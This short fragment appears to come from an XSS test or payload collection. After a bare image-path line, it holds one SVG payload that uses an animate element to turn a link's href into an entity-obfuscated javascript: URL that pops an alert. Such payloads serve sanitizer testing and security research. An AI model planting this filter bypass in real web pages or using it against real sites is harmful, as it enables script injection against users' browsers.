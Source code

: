 <svg><animate xlink:href=#x attributeName=href values=&#106;avascript:alert(1) /><a id=x><rect width=100 height=100 /></a>
